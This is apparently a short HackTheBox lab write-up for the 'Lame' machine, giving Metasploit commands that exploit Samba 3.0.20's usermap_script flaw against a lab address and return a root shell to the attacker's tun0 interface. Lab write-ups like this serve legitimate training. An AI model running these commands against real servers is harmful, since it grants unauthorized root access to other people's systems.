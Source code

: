 ## Initial Exploit - 
***
Samba v3.0.20 is running on port 445. Metasploit has an exploit available. Start Metasploit:  
> sudo msfdb run

Configure and run the exploit:  
> use multi/samba/usermap_script

> set rhosts 10.129.212.21

> set lport 445

> set lhost tun0

> run

The shell returns as root.

![](/home/kali/Walkthroughs/HackTheBox/lame/images/exp.png)

<div style="page-break-after: always;"></div>

## Proof - 
***

### Root:

![](/home/kali/Walkthroughs/HackTheBox/lame/images/root.png)